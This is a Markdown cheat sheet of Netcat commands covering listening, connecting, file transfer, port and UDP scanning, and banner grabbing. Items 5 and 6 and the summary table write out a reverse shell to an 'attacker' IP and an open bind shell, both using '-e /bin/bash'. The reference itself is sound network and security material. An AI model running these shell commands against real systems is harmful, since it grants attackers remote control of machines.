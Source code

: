 Netcat (often abbreviated as `nc`) is a versatile networking tool used for various network-related tasks such as port scanning, transferring files, and creating network connections. Below is a comprehensive list of Netcat options, commands, and examples.

### **Netcat Commands and Options**

1. **Listen on a Specific Port**
   - **Description:** Start Netcat to listen for incoming connections on a specified port.
   - **Command:**
     ```bash
     nc -l -p <port>
     ```
   - **Example:**
     ```bash
     nc -l -p 12345
     ```
   - **Explanation:** Listens on port 12345 for incoming connections.

2. **Connect to a Remote Host**
   - **Description:** Connect to a remote host on a specified port.
   - **Command:**
     ```bash
     nc <hostname> <port>
     ```
   - **Example:**
     ```bash
     nc example.com 80
     ```
   - **Explanation:** Connects to `example.com` on port 80.

3. **Transfer Files Between Hosts**
   - **Description:** Use Netcat to transfer files between two hosts.
   - **Sending Host Command:**
     ```bash
     nc -l -p <port> < file_to_send
     ```
   - **Receiving Host Command:**
     ```bash
     nc <hostname> <port> > received_file
     ```
   - **Example:**
     - Sending Host:
       ```bash
       nc -l -p 12345 < myfile.txt
       ```
     - Receiving Host:
       ```bash
       nc sender_host 12345 > receivedfile.txt
       ```

4. **Port Scanning**
   - **Description:** Scan a range of ports on a target host.
   - **Command:**
     ```bash
     nc -zv <hostname> <port_range>
     ```
   - **Example:**
     ```bash
     nc -zv example.com 1-1000
     ```
   - **Explanation:** Scans ports 1 through 1000 on `example.com`.

5. **Create a Reverse Shell**
   - **Description:** Open a reverse shell to a remote host.
   - **Command:**
     ```bash
     nc <attacker_ip> <port> -e /bin/bash
     ```
   - **Example:**
     ```bash
     nc 192.168.1.100 4444 -e /bin/bash
     ```
   - **Explanation:** Connects to the attacker’s IP on port 4444 and provides a bash shell.

6. **Bind Shell**
   - **Description:** Start a shell on a specific port.
   - **Command:**
     ```bash
     nc -l -p <port> -e /bin/bash
     ```
   - **Example:**
     ```bash
     nc -l -p 4444 -e /bin/bash
     ```
   - **Explanation:** Listens on port 4444 and provides a bash shell to anyone who connects.

7. **UDP Communication**
   - **Description:** Use Netcat to send and receive UDP packets.
   - **Command (Sending):**
     ```bash
     nc -u <hostname> <port>
     ```
   - **Command (Receiving):**
     ```bash
     nc -u -l -p <port>
     ```
   - **Example:**
     - Sending:
       ```bash
       nc -u example.com 12345
       ```
     - Receiving:
       ```bash
       nc -u -l -p 12345
       ```

8. **Send Data to a Network Service**
   - **Description:** Send data to a network service and receive a response.
   - **Command:**
     ```bash
     echo "<data>" | nc <hostname> <port>
     ```
   - **Example:**
     ```bash
     echo "GET / HTTP/1.1" | nc example.com 80
     ```
   - **Explanation:** Sends an HTTP GET request to `example.com` on port 80.

9. **Perform Banner Grabbing**
   - **Description:** Connect to a service and retrieve its banner information.
   - **Command:**
     ```bash
     nc <hostname> <port>
     ```
   - **Example:**
     ```bash
     nc example.com 80
     ```
   - **Explanation:** Connects to `example.com` on port 80, useful for retrieving service banners.

10. **Perform a TCP/UDP Scan**
    - **Description:** Scan for open ports on a host using TCP or UDP.
    - **Command (TCP):**
      ```bash
      nc -zv <hostname> <port_range>
      ```
    - **Command (UDP):**
      ```bash
      nc -zvu <hostname> <port_range>
      ```
    - **Example:**
      - TCP Scan:
        ```bash
        nc -zv example.com 1-1000
        ```
      - UDP Scan:
        ```bash
        nc -zvu example.com 1-1000
        ```

11. **Run in Verbose Mode**
    - **Description:** Display additional details about the connection.
    - **Command:**
      ```bash
      nc -v <hostname> <port>
      ```
    - **Example:**
      ```bash
      nc -v example.com 80
      ```
    - **Explanation:** Provides verbose output of the connection to `example.com` on port 80.

### **Summary of Netcat Commands**

| **Command**                         | **Command Example**                          | **Description**                                 |
|------------------------------------|----------------------------------------------|-------------------------------------------------|
| Listen on a Specific Port          | `nc -l -p 12345`                             | Listens on port 12345 for incoming connections  |
| Connect to a Remote Host           | `nc example.com 80`                         | Connects to `example.com` on port 80            |
| Transfer Files Between Hosts       | `nc -l -p 12345 < myfile.txt` (sender)       | Transfers `myfile.txt` to receiving host         |
| Port Scanning                      | `nc -zv example.com 1-1000`                  | Scans ports 1-1000 on `example.com`             |
| Create a Reverse Shell             | `nc 192.168.1.100 4444 -e /bin/bash`         | Opens a reverse shell to IP `192.168.1.100`    |
| Bind Shell                         | `nc -l -p 4444 -e /bin/bash`                 | Provides a bash shell on port 4444              |
| UDP Communication                  | `nc -u example.com 12345`                    | Sends/receives UDP packets                      |
| Send Data to a Network Service     | `echo "GET / HTTP/1.1" | nc example.com 80` | Sends data to `example.com` on port 80          |
| Perform Banner Grabbing            | `nc example.com 80`                         | Retrieves the banner from `example.com`         |
| Perform a TCP/UDP Scan             | `nc -zv example.com 1-1000` (TCP)            | Scans for open TCP ports                        |
| Run in Verbose Mode                 | `nc -v example.com 80`                       | Provides verbose output                         |

Netcat's flexibility makes it a powerful tool for network diagnostics, data transfer, and security testing.